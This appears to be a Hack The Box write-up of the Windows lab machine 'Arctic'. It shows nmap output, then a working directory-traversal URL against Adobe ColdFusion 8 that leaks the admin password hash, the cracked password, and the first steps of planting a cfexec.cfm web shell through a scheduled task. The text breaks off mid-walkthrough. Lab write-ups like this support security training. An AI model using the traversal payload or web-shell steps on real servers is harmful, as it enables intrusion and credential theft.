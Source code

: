 ```yaml
---
layout: post
title: Arctic(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.11
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.11</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-27 08:00 EST
<br>Nmap scan report for 10.10.10.11
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>   Microsoft Windows RPC
<br><font color="BB69EC">8500/tcp</font>  open  <font color="53E100">fmtp?</font>
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">unknown</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: specialized|WAP|phone
<br>Running: iPXE 1.X, Linux 2.4.X|2.6.X, Sony Ericsson embedded
<br>OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
<br>OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 135/tcp)
<br>HOP RTT        ADDRESS
<br>1   191.61 ms  10.10.14.1
<br>2   ... 6
<br>7   2371.15 ms 10.10.14.1</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 85.23 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>**Web**:-
![Web](https://teckk2.github.io/assets/images/Arctic/1-Arctic.png)
<br>On port:**8500** there are two directories 
<br>If we open **/cfdocs/** directory then we can see there is _adobe coldfusion 8_ is running on the web.
![coldfusion](https://teckk2.github.io/assets/images/Arctic/2-Arctic.png)
<br>For which there is a **LFI** exploit available using which we can reveal the admin password **hash**.
<br>[http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en](http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en)
![admin-hash](https://teckk2.github.io/assets/images/Arctic/3-Arctic.PNG)
<br>Now crack the password hash using [online tool](https://crackstation.net/) or if you want you can use john or hashcat.
![hash-cracker](https://teckk2.github.io/assets/images/Arctic/4-Arctic.PNG)
<br>The Password is _**{happyday}**_, now we can loggin into **coldfusion** as _admin_.
<br>And make sure that Coldfusion only allow two loggin at a time and it's really slow to response, So if you are unable to loggin then must be there is someone logged in or forget to logout, So revert the machine if you face any issue like this.
<br>Now Go to DEBUGGING & LOGGING tab and click on Scheduled Task now a page will popup then click on Schedule New Task.
![Shedule-Task](https://teckk2.github.io/assets/images/Arctic/5-Arctic.PNG)
![NEW-TASK](https://teckk2.github.io/assets/images/Arctic/6-Arctic.PNG)
<br>Before we proceed further we need to create a cfexec.cfm file which will give us a web shell. So, Copy The HTML payload From my [Pastebin](https://pastebin.com/KSZ4WrfV) and paste it in a new file and make sure to name it cfexec.cfm or it will not work because it's hardcoded.
![cfexec.cfm](https://teckk2.github.io/assets/images/Arctic/7-Arctic.PNG)
